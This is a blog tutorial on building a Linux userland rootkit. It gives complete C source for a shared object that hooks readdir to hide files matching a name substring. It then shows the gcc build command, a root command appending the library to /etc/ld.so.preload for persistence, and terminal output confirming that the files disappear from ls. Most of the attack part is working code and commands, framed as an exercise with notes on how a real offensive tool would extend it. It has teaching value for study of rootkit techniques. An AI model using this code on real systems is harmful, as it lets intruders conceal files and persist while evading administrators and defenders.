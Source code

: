 # Coding a Linux userland rootkit

This blopost could be a nice opportunity to talk about some basic Linux concepts, including `procfs`, `LD_PRELOAD`, hooking etc..  
While I will not do justice to the word "rootkit" in terms of sophistication, we will be creating a rootkit, in fact.

## Motivation
According to [Wikipedia](https://en.wikipedia.org/wiki/Rootkit):
> A rootkit is a collection of computer software, typically malicious, designed to enable access to a computer or an area of its software that is not otherwise allowed (for example, to an unauthorized user) and often masks its existence or the existence of other software.

We will be focusing on the "masks its existence" part. Our goal for today would be creating a piece of code that can hide an arbitrary filename and process substring.  
We will be assuming we have privileged aribtrary code execution as the `root` user.

## Shared object preload
Our strategy will be simple - we will *inject* code into all new processes and *hook* relevant functions to hide our files and processes.  
I talked a bit about injection and hooking [in the past](https://github.com/yo-yo-yo-jbo/injection_and_hooking_intro/) - it was on Windows, but the concepts are similar.  
Instead of `DLLs`, we will use `.so` files. Those files are `shared objects` and have the same file format as Linux executables (ELFs). They export symbols that can be used later, *conceptually* like Windows does.  Just like Windows has `LoadLibrary` and `GetProcAddress`, Linux has `dlopen` and `dlsym`, and just like Windows PE files can have dependencies on DLLs, Linux ELFs have dependencies on shared objects.  
Anyway, our strategy will be the following:
- For injection, we will use the `/etc/ld.so.preload` file. To write to it, we will need root access, but essentially - all files mentioned in that file (that might not exist to begin with) are going to be loaded to new processes. If you're familiar with the `LD_PRELOAD` environment variable, it's the same concept, but done persistently.
- We get hooking for free. Unlike the Windows dynamic library resolution, that import symbols from specific DLLs (e.g. `kernel32!MapViewOfFile`), on Linux the loader just needs a symbol - once the symbol is resolved it doesn't matter what shared object it comes from. The only thing we need to do is export the right symbol.

## Hiding files
Let's start with hiding files. We will be hooking the [readdir](https://man7.org/linux/man-pages/man3/readdir.3.html) function, which returns a `struct dirent*` - that's a *directory entry* that contain information about the file, including its name:

```c
struct dirent {
   ino_t          d_ino;       /* Inode number */
   off_t          d_off;       /* Not an offset; see below */
   unsigned short d_reclen;    /* Length of this record */
   unsigned char  d_type;      /* Type of file; not supported
                                  by all filesystem types */
   char           d_name[256]; /* Null-terminated filename */
};
```

The `readdir` function returns `NULL` on error or if the directory list is done, but we can simply call the next entry. For that, however, we'll need to call the original `readdir` function, which can be easily done with `dlopen` and `dlsym`:

```c
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>

#define FILENAME_TO_HIDE ("example")

typedef struct dirent* (*readdir_pfn_t)(DIR*);

static
readdir_pfn_t
g_original_readdir = NULL;

struct
dirent*
readdir(DIR* dirp)
{
    struct dirent* ret = NULL;

    // Validate original function exists
    if (NULL == g_original_readdir)
    {
        g_original_readdir = dlsym(RTLD_NEXT, "readdir");
        if (NULL == g_original_readdir)
	{
            goto cleanup;
        }
    }

    // Invoke and skip directory entries to hide
    do
    {
        ret = g_original_readdir(dirp);
	      if (NULL == ret)
	      {
            goto cleanup;
	      }
    }
    while (NULL != strstr(ret->d_name, FILENAME_TO_HIDE));

cleanup:

    // Return the entry
    return ret;
}
```

Let's examine this code carefully:
- We include several headers - `dlfcn.h` for `dlsym` related stuff, `dirent.h` for the `struct dirent` definition, and `string.h` for `strstr`.
- Since this is only an exercise `FILENAME_TO_HIDE` is simply defined as a constant. In a real offensive tool we'd probably not just have a constant, since we do not want to recompile every time we want to hide a file. Also, we'd probably support multiple filenames.
- We define a `readdir_pfn_t` type, which is the function pointer definition for `readdir`, and declare one global variable `g_original_readdir` which will point to the original `readdir` function. We will initialize it lazily (i.e. the first time it's needed) but we could've also initialized it in the `__attribute(constructor)__` function (we we'd have to declare) - that's the shared object equivalent of `DllMain`.
- We create a new function `readdir` that hooks the original function. As we said, it first resolves the original `readdir` by using the `dlsym` function, which can get a `RTLD_NEXT` constant to get the *next symbol* - in our case, that'd be the original one.
- We then create a loop that calls the original `readdir` function - if it fails or finishes (indicated by returning `NULL`) then we simply return the `NULL` result. Otherwise, we check that the `FILENAME_TO_HIDE` constant is not in the `d_name` member in the directory entry (by using `strstr`). This means we skip filenames we wish to hide.

## Compilation and running
We will need several compilation flags:
- `-fPIC` to compile our shared object as a shared object (`PIC` stands for *position-independent code* - shared objects must be position independent).
- `-shared` to make it a shared library; this essentially reduces output file size, as well as avoid other things (like `_start` symbol, which is the entry point in executables).
- `-D_GNU_SOURCE` to have a predefined `_GNU_SOURCE` constant - this is essential to use the `RTLD_NEXT` constant, and is well-documented.
- We use `-ldl` linker flag to statically link with `libdl` - that's necessary  for using `dlsym`.

Here is an experimental run:
```c
┌──(root㉿jbo-nix)-[/tmp/experiment]
└─# gcc -Wall -fPIC -shared -D_GNU_SOURCE hider.c -ohider.so -ldl

┌──(root㉿jbo-nix)-[/tmp/experiment]
└─# echo /tmp/experiment/hider.so >> /etc/ld.so.preload

┌──(root㉿jbo-nix)-[/tmp/experiment]
└─# touch example

┌──(root㉿jbo-nix)-[/tmp/experiment]
└─# touch example2

┌──(root㉿jbo-nix)-[/tmp/experiment]
└─# ls -la
total 28
drwxr-xr-x  2 jbo  jbo   4096 May  4 07:38 .
drwxrwxrwt 11 root root  4096 May  4 07:37 ..
-rw-r--r--  1 jbo  jbo    778 May  4 07:33 hider.c
-rwxr-xr-x  1 root root 15464 May  4 07:37 hider.so

┌──(root㉿jbo-nix)-[/tmp/experiment]
└─#
```

Let's iterate:
- First command simply compiles the shared object, as we described.
- We compile the shared object and then add it to `/etc/ld.so.preload` file, as we described earlier. Note you have to be running as root to do that.
- We create two files with the `touch` command - one called `example`, the other - `example2`.
- We run `ls -la` and see those file have bee removed from directory listing!

